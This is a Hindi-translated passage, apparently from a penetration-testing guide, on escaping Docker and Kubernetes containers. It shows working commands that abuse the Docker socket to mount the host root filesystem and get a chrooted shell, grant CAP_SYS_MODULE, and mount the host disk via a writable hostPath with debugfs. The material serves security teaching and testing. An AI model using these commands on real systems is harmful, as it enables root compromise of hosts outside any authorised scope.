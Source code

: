 संभव है कि जब सिसएडमिन ने डॉकर फ़ायरवॉल को कॉन्फ़िगर किया था, तो उन्होंने API ([https://docs.docker.com/engine/api/v1.40/#operation/ContainerList](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList)) के कुछ महत्वपूर्ण पैरामीटर जैसे "**Binds**" के बारे में **भूल गए** हो सकता है।\
निम्नलिखित उदाहरण में, इस गलत कॉन्फ़िगरेशन का दुरुपयोग करके एक कंटेनर बनाना और चलाना संभव है जो होस्ट का रूट (/) फ़ोल्डर माउंट करता है:
```bash
docker version #First, find the API version of docker, 1.40 in this example
docker images #List the images available
#Then, a container that mounts the root folder of the host
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "Binds":["/:/host"]}' http:/v1.40/containers/create
docker start f6932bc153ad #Start the created privileged container
docker exec -it f6932bc153ad chroot /host bash #Get a shell inside of it
#You can access the host filesystem
```
## जांच नहीं की गई JSON विशेषता

संभव है कि जब सिस्टम व्यवस्थापक ने डॉकर फ़ायरवॉल कॉन्फ़िगर किया था, तो उन्होंने API ([https://docs.docker.com/engine/api/v1.40/#operation/ContainerList](https://docs.docker.com/engine/api/v1.40/#operation/ContainerList)) के "**HostConfig**" के अंदर "**Capabilities**" जैसी कुछ महत्वपूर्ण विशेषताओं के बारे में भूल गए हों। निम्नलिखित उदाहरण में इस गलत कॉन्फ़िगरेशन का दुरुपयोग करके हम SYS_MODULE क्षमता के साथ एक कंटेनर बना सकते हैं और चला सकते हैं:
```bash
docker version
curl --unix-socket /var/run/docker.sock -H "Content-Type: application/json" -d '{"Image": "ubuntu", "HostConfig":{"Capabilities":["CAP_SYS_MODULE"]}}' http:/v1.40/containers/create
docker start c52a77629a9112450f3dedd1ad94ded17db61244c4249bdfbd6bb3d581f470fa
docker ps
docker exec -it c52a77629a91 bash
capsh --print
#You can abuse the SYS_MODULE capability
```
# लिखने योग्य hostPath माउंट

(यहां से जानकारी मिली है [**यहां**](https://medium.com/swlh/kubernetes-attack-path-part-2-post-initial-access-1e27aabda36d)) कंटेनर के भीतर, एक हमलावर अपने पहुंच को बढ़ाने का प्रयास कर सकता है जो क्लस्टर द्वारा बनाए गए एक लिखने योग्य hostPath वॉल्यूम के माध्यम से मेजबान ऑपरेटिंग सिस्टम के नीचे और पहुंच प्राप्त करने की कोशिश कर सकता है। नीचे कुछ आम चीजें हैं जिन्हें आप कंटेनर के भीतर जांच सकते हैं ताकि आप इस हमलावर वेक्टर का लाभ उठा सकें:
```bash
### Check if You Can Write to a File-system
$ echo 1 > /proc/sysrq-trigger

### Check root UUID
$ cat /proc/cmdlineBOOT_IMAGE=/boot/vmlinuz-4.4.0-197-generic root=UUID=b2e62f4f-d338-470e-9ae7-4fc0e014858c ro console=tty1 console=ttyS0 earlyprintk=ttyS0 rootdelay=300- Check Underlying Host Filesystem
$ findfs UUID=<UUID Value>/dev/sda1- Attempt to Mount the Host's Filesystem
$ mkdir /mnt-test
$ mount /dev/sda1 /mnt-testmount: /mnt: permission denied. ---> Failed! but if not, you may have access to the underlying host OS file-system now.

### debugfs (Interactive File System Debugger)
$ debugfs /dev/sda1
```
# कंटेनर सुरक्षा में सुधार
